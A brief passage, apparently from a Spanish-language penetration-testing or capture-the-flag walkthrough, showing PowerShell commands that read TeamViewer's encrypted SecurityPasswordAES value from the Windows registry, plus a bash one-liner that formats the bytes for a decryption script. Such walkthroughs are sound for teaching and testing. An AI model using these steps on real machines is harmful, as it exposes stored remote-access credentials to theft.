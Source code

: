 ```powershell
cd C:\
cd PROGR~1
dir
cd PROGR~2
dir
cd TeamViewer
dir
#Output Version7

cd HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7
Get-itemproperty -Path .
(Get-itemproperty -Path .).SecurityPasswordAES
```

Aqui ya tenemos el cifrado de la contraseña. La copiamos y la modificamos para poder usarla desde el script de python

```bash
echo "255
155
28
115
214
107
206
49
172
65
62
174
19
27
78
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91" | xargs | sed 's/ /, /g' | tr -d '\n' | xclip -sel clip
```
